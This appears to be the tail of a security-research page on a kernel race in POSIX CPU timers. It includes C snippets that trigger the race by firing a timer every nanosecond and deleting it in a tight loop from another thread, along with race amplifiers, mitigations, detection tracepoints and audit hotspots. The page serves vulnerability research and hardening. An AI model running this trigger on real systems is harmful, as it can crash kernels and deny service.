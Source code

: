 ```c
static timer_t t;
static void setup_cpu_timer(void) {
    struct sigevent sev = {0};
    sev.sigev_notify = SIGEV_SIGNAL;    // delivery type not critical for the race
    sev.sigev_signo = SIGUSR1;
    if (timer_create(CLOCK_THREAD_CPUTIME_ID, &sev, &t)) perror("timer_create");
    struct itimerspec its = {0};
    its.it_value.tv_nsec = 1;           // fire ASAP
    its.it_interval.tv_nsec = 1;        // re-fire
    if (timer_settime(t, 0, &its, NULL)) perror("timer_settime");
}
```

- From a sibling thread, concurrently delete the same timer while the target thread exits:

```c
void *deleter(void *arg) {
    for (;;) (void)timer_delete(t);     // hammer delete in a loop
}
```

- Race amplifiers: high scheduler tick rate, CPU load, repeated thread exit/re-create cycles. The crash typically manifests when posix_cpu_timer_del() skips noticing firing due to failing task lookup/locking right after unlock_task_sighand().

Detection and hardening
- Mitigation: apply the exit_state guard; prefer enabling CONFIG_POSIX_CPU_TIMERS_TASK_WORK when feasible.
- Observability: add tracepoints/WARN_ONCE around unlock_task_sighand()/posix_cpu_timer_del(); alert when it.cpu.firing==1 is observed together with failed cpu_timer_task_rcu()/lock_task_sighand(); watch for timerqueue inconsistencies around task exit.

Audit hotspots (for reviewers)
- update_process_times() → run_posix_cpu_timers() (IRQ)
- __run_posix_cpu_timers() selection (TASK_WORK vs IRQ path)
- collect_timerqueue(): sets ctmr->firing and moves nodes
- handle_posix_cpu_timers(): drops sighand before firing loop
- posix_cpu_timer_del(): relies on it.cpu.firing to detect in-flight expiry; this check is skipped when task lookup/lock fails during exit/reap

Notes for exploitation research
- The disclosed behavior is a reliable kernel crash primitive; turning it into privilege escalation typically needs an additional controllable overlap (object lifetime or write-what-where influence) beyond the scope of this summary. Treat any PoC as potentially destabilizing and run only in emulators/VMs.

### See also

{{#ref}}
ksmbd-streams_xattr-oob-write-cve-2025-37947.md
{{#endref}}

## References
- [Race Against Time in the Kernel’s Clockwork (StreyPaws)](https://streypaws.github.io/posts/Race-Against-Time-in-the-Kernel-Clockwork/)
- [Android security bulletin – September 2025](https://source.android.com/docs/security/bulletin/2025-09-01)
- [Android common kernel patch commit 157f357d50b5…](https://android.googlesource.com/kernel/common/+/157f357d50b5038e5eaad0b2b438f923ac40afeb%5E%21/#F0)

{{#include ../../../banners/hacktricks-training.md}}